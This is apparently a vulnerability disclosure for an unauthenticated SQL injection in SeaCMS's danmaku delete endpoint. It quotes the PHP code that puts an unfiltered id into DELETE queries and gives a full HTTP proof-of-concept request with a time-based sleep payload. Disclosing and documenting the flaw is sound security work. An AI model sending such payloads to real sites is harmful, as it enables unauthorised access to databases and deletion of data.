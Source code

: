 **/js/player/dmplayer/dmku/index.php Unauthorized access to sql injection**

When ac=del, type=list

```java
else if ($_GET['ac'] == "del") {
        $id = $_GET['id'] ?: succeedmsg(-1, null);
        $type = $_GET['type'] ?: succeedmsg(-1, null);
        $data = $d->删除弹幕($id) ?: succeedmsg(0, []);
        succeedmsg(23, true);
```



Enter删除弹幕($id)

```java
public function 删除弹幕($id)
    {
        //sql::插入_弹幕($data);
        sql::删除_弹幕数据($id);
    }
```

Enter  sql::删除_弹幕数据($id);

```java
public static function 删除_弹幕数据($id)
    {
        try {
            global $_config;
            $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);
            $conn->set_charset('utf8');
            if ($_GET['type'] == "list") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $result = "DELETE FROM sea_danmaku_list WHERE cid={$id}";
                $conn->query($sql);
                $conn->query($result);
            } else if ($_GET['type'] == "report") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $conn->query($sql);
            }
        } catch (PDOException $e) {
            showmessage(-1, '数据库错误:' . $e->getMessage());
        }
    }
```

The id can be controlled, and the type can also be controlled, and there is no filtering. When type=list or report, directly put it into the query function for query.

**Vulnerability verification**

**POC**

```java
GET /js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(6)))x)&type=list HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(0)))x)&type=list
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Connection: keep-alive

```

As shown in the figure, you can see that there is indeed a delay of 6 seconds.

![image-20240821015634118](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821015634118.png)

